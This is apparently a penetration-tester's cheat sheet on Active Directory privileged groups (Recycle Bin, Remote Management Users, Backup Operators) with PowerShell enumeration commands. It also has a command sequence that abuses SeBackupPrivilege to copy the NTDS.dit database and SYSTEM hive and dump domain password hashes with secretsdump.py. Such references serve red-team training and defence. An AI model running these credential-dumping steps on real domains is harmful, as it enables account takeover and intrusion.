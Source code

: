 # Privileged Groups

## AD Recycle Bin
A user in the group is allowed to read / recover deleted AD objects.

```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## Remote Management Users
Members of this group can access PCs over **WinRM**

```powershell
Get-NetGroupMember -Identity "Remote Management Users" -Recurse
Get-NetLocalGroupMember -ComputerName <pc_name> -GroupName "Remote Management Users"
```

## AD Backup Operators
Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files

```powershell
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

[SeBackupPrivilege DLLs](https://github.com/k4sth4/SeBackupPrivilege)
### Get Hashes from .dit File

```bash
# LOCAL
## Download .dit file (assuming evil-winrm is used)
download <database_file>
## Get system HIVE
reg.exe save hklm\system <destination>

# REMOTE (after file downloads)
secretsdump.py -system <system_hive> -ntds <database_file> LOCAL
```


  

# Interesting Account Names

## AD Support Accounts
Often we have the credentials belonging to limited administrative accounts such as `IT`, `helpdesk` or `support`.
Sometimes, these accounts have an ability to reset passwords.
